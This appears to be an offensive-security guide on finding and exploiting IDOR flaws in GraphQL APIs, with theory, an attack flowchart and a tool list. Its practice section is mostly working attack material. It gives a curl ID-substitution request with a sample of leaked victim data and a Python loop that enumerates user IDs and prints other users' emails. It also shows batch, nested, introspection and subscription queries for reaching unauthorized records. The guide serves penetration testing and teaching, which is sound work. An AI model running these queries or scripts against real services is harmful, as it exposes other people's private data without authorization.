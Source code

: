 ```yaml
---
title: Understanding and Exploiting GraphQL IDOR Vulnerabilities
description: Explore and learn how to identify and exploit GraphQL IDOR vulnerabilities
  effectively.
keywords:
- GraphQL IDOR
- Insecure Direct Object References
- GraphQL query manipulation
- GraphQL introspection
- Unauthorized data access
- Batch queries
- GraphQL subscriptions
---
```


# GraphQL IDOR

## Context

In this guide, we will explore how to identify and exploit Insecure Direct Object References (IDOR) vulnerabilities within GraphQL APIs. To effectively exploit these vulnerabilities, you should be familiar with the structure of GraphQL schemas and the process of crafting and sending GraphQL queries. An understanding of object identifiers in web applications is also essential.

## Theory

### IDOR in the GraphQL Context

GraphQL IDOR occurs when access controls are missing or insufficient on object identifiers exposed via GraphQL queries or mutations. Given GraphQL's flexible querying capabilities and nested object structures, the attack surface for IDOR vulnerabilities is substantial. 

An attacker can exploit GraphQL IDOR by manipulating object identifiers in the queries to access unauthorized data. This vulnerability often arises due to the failure of implementing adequate server-side verification checks, leaving applications reliant on client-side enforcement, which is easily bypassed.

### GraphQL ID Enumeration and Query Manipulation

Attackers can enumerate object IDs using predictable patterns or by leveraging GraphQL introspection to discover potential targets. Once valid IDs are identified, attackers substitute these IDs within queries to access data belonging to other users. The absence of server-side authorization checks permits attackers to circumvent any restrictions that might otherwise be enforced through the client-side. 

### Advanced GraphQL Attack Vectors

GraphQL protocols can be exploited through more advanced techniques:

- **Batch Queries and Nested Requests:** Attacks involving batch querying can be particularly damaging, allowing a single request to retrieve multiple unauthorized objects simultaneously.
  
- **GraphQL Introspection:** This feature may be used to enumerate object types and their relationships, facilitating the discovery of eligible object IDs for attack.
  
- **Subscriptions:** GraphQL subscriptions might inadvertently expose real-time data associated with specific object IDs, enabling live access when unauthorized.

### GraphQL IDOR Attack Flow

The process for conducting a GraphQL IDOR attack can be visualized as follows:

```mermaid
flowchart TD
    A[Discover GraphQL endpoint] --> B[Introspect schema or observe queries]
    B --> C[Identify object types and ID fields]
    C --> D[Enumerate or guess valid IDs]
    D --> E[Craft query with substituted ID]
    E --> F[Submit query and analyze response]
    F --> G{Access granted?}
    G -- Yes --> H[Unauthorized data exposure]
    G -- No --> I[Repeat with new ID or vector]
```

## Practice

### Manual ID Substitution in GraphQL Queries

- Execute the following command to test ID substitution for unauthorized access:

    ```bash
    curl -X POST https://target/graphql -H 'Content-Type: application/json' --data '{"query":"{ user(id: \"2\"){ id, email, name } }"}'
    ```

- A successful response reveals another user's data:

    ```text
    { "data": { "user": { "id": "2", "email": "victim@example.com", "name": "Victim User" } } }
    ```
- **Outcome:** By manipulating GraphQL query IDs, attackers can access data belonging to another user without authorization.

### Automated ID Enumeration and Batch Query Exploitation

- Utilize an automated script to enumerate user IDs and extract data:

    ```python
    import requests
    url = 'https://target/graphql'
    for i in range(1, 10):
        query = '{ user(id: "%d"){ id, email, name } }' % i
        r = requests.post(url, json={'query': query})
        if 'email' in r.text:
            print(r.text)
    ```

- **Outcome:** This automation allows bulk unauthorized data retrieval via continuous ID enumeration.

### Exploiting Nested Object References

- Test nested object access by querying nested entities:

    ```graphql
    { post(id: "5") { id, title, author { id, email } } }
    ```

- **Outcome:** Successfully accessing nested sensitive data signifies vulnerabilities within object references.

### Leveraging GraphQL Introspection for ID Discovery

- Perform introspection to enumerate fields:

    ```graphql
    { __type(name: "User") { fields { name type { name kind } } } }
    ```

- **Outcome:** This technique can help identify exploitable object types and fields for further IDOR attacks.

### Batch Querying Multiple Objects

- Use a batch query to access multiple user data records:

    ```graphql
    { user1: user(id: "2") { id, email } user2: user(id: "3") { id, email } }
    ```

- **Outcome:** By accessing multiple objects in one batch, simultaneous unauthorized data retrieval is achievable.

### Testing GraphQL Subscriptions for IDOR

- Assess subscriptions for potential IDOR exploitation:

    ```graphql
    subscription { messageReceived(userId: "2") { id, content } }
    ```

- **Outcome:** Subscription-based IDOR allows unauthorized real-time data access, highlighting insecure subscription configurations.

## Tools

- **Burp Suite**
- **GraphiQL**
- **Postman**
- **GraphQL Voyager**
- **InQL**
- **GraphQLmap**